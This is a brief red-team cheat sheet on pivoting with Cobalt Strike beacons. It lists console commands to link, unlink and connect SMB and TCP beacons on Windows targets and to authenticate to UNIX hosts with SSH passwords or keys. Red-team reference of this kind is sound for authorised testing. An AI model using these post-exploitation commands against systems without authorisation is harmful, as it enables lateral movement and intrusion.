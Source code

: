 # 08 - Pivoting

Search Tag(s): #command-and-control #post-exploitation #lateral-movement #pivoting #cobalt-strike

Link SMB beacon from the windows target.

```
beacon> link <IP
```

Unlink SMB beacon from the windows target. You can re-`link` the disconnected windows target from a different live beacon session.

```
beacon> unlink <IP>
```

Connect TCP bind beacon from a windows target.

```
beacon> connect <IP> [<PORT>]
```

Authenticate SSH credentials from a UNIX target.

```
beacon> ssh <IP> <username> <password>

beacon> ssh-key <IP> <username> /path/to/local/ssh_key
```